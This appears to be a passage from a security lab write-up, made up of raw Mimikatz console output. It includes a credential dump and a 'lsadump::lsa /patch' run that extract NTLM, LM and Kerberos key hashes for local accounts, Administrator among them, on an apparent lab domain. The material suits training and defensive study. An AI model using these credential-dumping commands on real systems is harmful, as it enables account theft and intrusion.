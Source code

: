 ```console
      aes128_hmac       (4096) : a09548edf5d6ef88615586ad4315d147
      des_cbc_md5       (4096) : 982a37cb1998d66e

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : WDAGUtilityAccount
    Credentials
      des_cbc_md5       : 982a37cb1998d66e


RID  : 000003eb (1003)
User : localadmin
  Hash NTLM: e19ccf75ee54e06b06a5907af13cef42
    lm  - 0: 16c96a30f045654ca0f5277d816dc3fc
    ntlm- 0: e19ccf75ee54e06b06a5907af13cef42

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 35807c03d79f70538886cc1f45212e9c

* Primary:Kerberos-Newer-Keys *
    Default Salt : CLIENT.LAB.VXlocaladmin
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : 0cbf515a0f766032f6c3d226bebbb2de3ff3252c0107d545839a11da9ea0d723
      aes128_hmac       (4096) : 4541dc99ef9a196bfa67fdb81098a8e3
      des_cbc_md5       (4096) : ecd6e0d6237ca19e

* Packages *
    NTLM-Strong-NTOWF

* Primary:Kerberos *
    Default Salt : CLIENT.LAB.VXlocaladmin
    Credentials
      des_cbc_md5       : ecd6e0d6237ca19e
```

## 1.2. Successful `lsadump::lsa /patch` example

```console
mimikatz # lsadump::lsa /patch
Domain : CLIENT / S-1-5-21-1540030335-1244868743-683777651

RID  : 000001f4 (500)
User : Administrator
LM   :
NTLM : e19ccf75ee54e06b06a5907af13cef42

RID  : 000001f7 (503)
User : DefaultAccount
LM   :
NTLM :

RID  : 000001f5 (501)
User : Guest
LM   :
NTLM :

RID  : 000003eb (1003)
User : localadmin
LM   :
```